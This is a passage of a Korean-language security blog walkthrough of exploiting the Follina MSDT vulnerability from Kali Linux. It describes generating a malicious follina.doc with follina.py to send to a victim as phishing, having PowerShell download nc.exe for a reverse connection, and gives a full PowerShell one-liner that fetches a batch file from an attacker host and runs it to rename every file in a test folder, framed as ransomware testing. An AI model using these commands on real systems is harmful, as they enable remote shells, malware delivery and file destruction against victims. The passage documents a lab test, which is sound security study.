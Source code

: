 이와 같이 `command`를 통해 Powershell을 통한 `nc.exe` 다운로드 및 Connecting을 진행한다.

기존 `calc.exe`의 Payload를 보게 되면 단순한 String 전달이 아닌 Base64 encoding을 진행하여 1차적인 난독화를 진행하는 것을 알 수 있다.

Kali로 돌아와 `python3 follina.py -p {port} -l {listening port}`를 수행하게 되면 `follina.doc`가 생성되는데 이 또한 피싱과 같이 피해자에게 전송을 진행한다.

이후 피해자 PC에서 해당 doc 파일을 통해 MSDT가 정상 실행된다면 아래와 같이 Session이 연결되게 된다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/022a1ca8-f0ee-4af3-bc33-e01c4cac7223">
</p>

또한 nc.exe 파일도 `C:\Windows\Tasks` 디렉토리에 정상적으로 다운로드 되어 있는 것을 확인할 수 있다.

현재 C:\USERS\USR\DESKTOP\TEST 디렉토리에는 위와 같이 테스트용 파일이 존재한다. 랜섬웨어 및 악성코드 실행 시 정상적으로 작동하는지 테스트를 진행합니다.

```
C:\USERS\USR\DESKTOP\TEST
│  1.txt
│  2.txt
│  3.txt
│  4.txt
│  5.txt
│
├─A
│  │  1.txt
│  │  2.txt
│  │  3.txt
│  │  4.txt
│  │  5.txt
│  │
│  └─C
│          1.txt
│          2.txt
│          3.txt
│          4.txt
│          5.txt
│
└─B
        1.txt
        2.txt
        3.txt
        4.txt
        5.txt
```

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w 1 -noni -nop -c "(new-Object System.Net.WebClient).DownloadFile('http://{AttackIP}/extension_rename.bat','C:\Users\usr\Desktop\Test\extension_rename.bat');"&& cd C:\Users\usr\Desktop\Test&& extension_rename.bat
```

해당 명령어는 `powershell.exe`를 이용하여 공격자 서버의 파일을 다운로드 받아 실행시키는 코드로 실행하게 되면 Test 디렉토리 내 파일이 모두 변경되는 것을 확인할 수 있다.
